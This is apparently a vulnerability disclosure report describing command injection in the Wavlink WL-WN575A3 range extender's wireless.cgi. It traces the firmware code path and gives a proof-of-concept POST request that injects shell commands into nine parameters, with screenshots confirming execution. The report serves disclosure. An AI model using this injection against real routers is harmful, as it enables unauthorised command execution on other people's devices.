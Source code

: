 # Information

**Vendor of the products:**    WAVLINK

**Vendor's website:**    [https://www.wavlink.com/en_us](https://www.wavlink.com/en_us "https://www.wavlink.com/en_us")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    Wavlink WL-WN575A3

**Affected firmware version:**    RPT75A3.V4300.201217

**Firmware download address:**     [https://www.wavlink.com/en_us/firmware/details/fac744bd61.html](https://www.wavlink.com/en_us/firmware/details/fac744bd61.html "https://www.wavlink.com/en_us/firmware/details/fac744bd61.html")

# Overview

`Wavlink WL-WN575A3 RPT75A3.V4300.201217` has several command injection vulnerabilities detected at function `obtw`. Attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# Show the product

`Wavlink WL-WN575A3` is a AC1200 Dual-band Wi-Fi Range Extender. The test version here is `RPT75A3.V4300.201217`.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/0.jpg)

# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/wireless.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/5.jpg)

In the function `ftext`, we find that when bypassing the check of `wlan_conf` and the content of `page` field is `obtw`, we can execute the `obtw` function.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/6.jpg)

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/7.jpg)

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/8.jpg)

In the function `obtw`, the program uses function `web_get` to obtain the content of parameter `obtw_enable` , `CCK_1M` , `CCK_5M` , `OFDM_6M` , `OFDM_12M` , `HT20_MCS_0` , `HT20_MCS_1_2` , `HT40_MCS_0` , `HT40_MCS_32` and `HT40_MCS_1_2` which are sent by `POST` request messages. Then, when `obtw_enable != 0`, the content of other parameters are formatted into a string passed as an argument to the function `do_system` which can execute system commands.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/4.jpg)

Above all, attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and let `wlan_conf=2860 & page=obtw` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# POC

Send the following to the URL `http://wifi.wavlink.com/cgi-bin/wireless.cgi` by `POST` request.

```
wlan_conf=2860
&page=obtw
&obtw_enable=1
&CCK_1M=;echo 1 >> /etc_ro/lighttpd/www/data.html;
&CCK_5M=;echo 2 >> /etc_ro/lighttpd/www/data.html;
&OFDM_6M=;echo 3 >> /etc_ro/lighttpd/www/data.html;
&OFDM_12M=;echo 4 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_0=;echo 5 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_1_2=;echo 6 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_0=;echo 7 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_32=;echo 8 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_1_2=;echo 9 >> /etc_ro/lighttpd/www/data.html;
```

# Review Vulnerabilities

At first, we found that the page `/data.html` does not exist.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/1.jpg)

Then, we use `HackBar` to send the `POC` above. **We inject commands that output `1` to `9` in turn into each parameter.**

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/2.jpg)

Finally, we detect that the page `/data.html` has been created and the number `1` to `9` are displayed on the page.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/3.jpg)

So far, we have verified that **the all above nine parameters can be vulnerability points injected by arbitrary commands**.
